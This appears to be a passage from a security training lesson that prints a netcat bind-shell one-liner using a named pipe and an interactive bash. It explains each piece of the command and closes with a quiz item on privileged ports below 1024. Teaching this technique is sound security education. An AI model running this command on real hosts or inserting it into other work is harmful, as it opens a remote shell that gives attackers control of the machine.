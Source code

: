 > rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 1234 > /tmp/f

rm -f /tmp/f - This command removes any existing named pipe file located at /tmp/f/. This ensures that the script can create a new named pipe without conflicts.
mkfifo /tmp/f - This command creates a named pipe, or FIFO, at /tmp/f. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
cat /tmp/f - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
| bash -i 2>&1 - The output of cat is piped to a shell instance (bash -i), which allows the attacker to execute commands interactively. The 2>&1 redirects standard error to standard output, ensuring error messages are returned to the attacker.
| nc -l 0.0.0.0 1234 - Starts Netcat in listen mode (-l) on all interfaces (0.0.0.0) and port 1234. The shell will be exposed to the attacker once they connect to this port.

Listening below which port number requires root access or privileged permissions? 1024
